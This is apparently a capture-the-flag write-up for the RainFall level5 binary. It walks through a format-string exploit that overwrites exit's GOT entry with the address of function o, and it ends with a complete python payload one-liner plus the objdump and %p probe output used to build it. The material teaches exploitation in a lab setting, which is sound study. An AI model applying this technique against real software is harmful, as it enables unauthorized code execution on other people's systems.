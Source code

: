 We open the binary in [dogbolt](https://dogbolt.org/). We can see that we have to call the function `o`.
Here will do the same as previous levels using printf.

First we find the address where to write.
Here we see that the `n` function does not `return` but instead use a `exit` so it doesn't return in main.
So we will have to overwrite the address of the `exit` function.
To do that we will do a GOT overwrite, when a program is executed it initialized the GOT (Global offset Table) for every external function (like lib function),
it will cache the memory address from the function in the GOT so it doesn't have to ask the lib (here `libc`) for every external function call.

To see the GOT address of exit we can do :
```Shell
level5@RainFall:~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
Here the address of `exit` is : `08049838`
In little endian : `/x38/x98/x04/x08`

We find the address of `o`.
```Shell
level5@RainFall:~$ objdump -t level5
...
080484a4 g     F .text  0000001e              o
...
```
Address : `080484a4`
Converted in decimal : 134513828

Let's find the offset of the buffer :

```Shell
level5@RainFall:~$ ./level5
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

Here we find the address of the buffer at `%4$p`

Let's put this together:
Here we do not forget to subtract 4 bytes for the address

```Shell
python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit1 && cat /tmp/exploit1 - | ./level5
```

To go further :
https://axcheron.github.io/exploit-101-format-strings/
